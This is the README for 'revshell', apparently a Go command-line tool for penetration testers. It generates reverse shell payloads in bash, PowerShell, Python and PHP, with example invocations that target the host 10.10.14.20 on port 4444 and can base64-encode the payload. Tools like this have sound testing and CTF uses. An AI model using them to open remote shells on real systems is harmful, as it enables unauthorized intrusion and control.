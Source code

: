 # revshell

Generate revshells in your terminal

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
  - [Paramaters](#parameters)
- [Contributing](#contributing)
- [Credits](#credits)
- [License](#license)

## Installation

```bash
go install -v github.com/gubarz/revshell@latest
```
## Usage

### Interactive Mode

The easiest way to generate a reverse shell is using the interactive mode:

```bash
revshell generate
```
This will guide you through selecting a shell type, method, IP address, port, and other options.

### Direct Shell Commands
For quick access to common shells:

```bash
# Basic bash reverse shell
revshell bash

# PowerShell reverse shell with default port
revshell powershell 10.10.14.20

# Python reverse shell with base64 encoding
revshell python 10.10.14.20 4444 -e base64

# PHP reverse shell
revshell php 10.10.14.20 4444
```

### Custom Shell Generation

For more control, use the custom command:

```bash
# Generate a specific shell type and method
revshell custom -t powershell -m base64 -i 10.10.14.20 -p 4444 -s powershell

# Use tab completion to see available options
revshell custom -t [TAB] -m [TAB]
```

### Utility Commands

```bash
# Show system information (IPs and config)
revshell info

# List available shell types
revshell list types

# List methods for a specific shell
revshell list methods bash

# Create a config file
revshell config
```

### Configuration

You can create a configuration file to set default values:

```bash
# Create a sample config file
revshell config

# Edit the config file
vim ~/.config/revshell/config
```
Configuration options:

- ip: Default IP address
- port: Default port (e.g., 9001)
- shell: Default shell (e.g., bash)
- encoding: Default encoding

## Contributing

Contributions are welcome! Please follow these steps:

Fork the project

Create your feature branch (git checkout -b feature/YourFeature)

Commit your changes (git commit -am 'Add some feature')

Push to the branch (git push origin feature/YourFeature)

Create a new Pull Request

## Credits

https://www.revshells.com / https://github.com/0dayCTF/reverse-shell-generator

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
